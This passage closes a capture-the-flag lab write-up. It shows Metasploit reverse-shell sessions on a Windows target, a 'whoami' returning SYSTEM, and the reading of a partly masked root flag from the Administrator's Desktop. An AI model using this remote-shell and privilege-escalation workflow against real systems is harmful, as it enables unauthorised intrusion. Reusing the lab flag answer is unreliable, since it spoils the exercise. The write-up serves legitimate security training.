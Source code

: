 As you can see above, we popped a new shell. Lets actually confirm this and use that session.

```bash
msf6 exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         meterpreter x86/windows  STEELMOUNTAIN\bill @ STEELMOUNTAIN                        10.8.162.140:4444 -> 10.10.46.228:49365  (10.10.46.228)
  5         shell sparc/bsd          Shell Banner: Microsoft Windows [Version 6.3.9600] -----  10.8.162.140:1337 -> 10.10.46.228:49550  (10.10.46.228)

msf6 exploit(multi/handler) > sessions -i 5
[*] Starting interaction with 5...


Shell Banner:
Microsoft Windows [Version 6.3.9600]
-----

C:\Windows\system32>whoami
whoami
nt authority\system
```

Awesome, so now we are `nt authority`, we can easily navigate to the administrators Desktop Dir and read the root flag

> NT Authority\SYSTEM a.k.a LocalSystem account is a built-in Windows Account. It is the most powerful account on a Windows local instance (More powerful than any admin account).

```
C:\Windows\system32>cd ..\..\users\administrator\Desktop
cd ..\..\users\administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\Administrator\Desktop

10/12/2020  11:05 AM    <DIR>          .
10/12/2020  11:05 AM    <DIR>          ..
10/12/2020  11:05 AM             1,528 activation.ps1
09/27/2019  04:41 AM                32 root.txt
               2 File(s)          1,560 bytes
               2 Dir(s)  43,989,893,120 bytes free

C:\Users\Administrator\Desktop>more root.txt
more root.txt
9af**************************db80

C:\Users\Administrator\Desktop>[*] 10.10.46.228 - Meterpreter session 1 closed.  Reason: Died

```

#### What is the root flag?

`9af**************************db80`



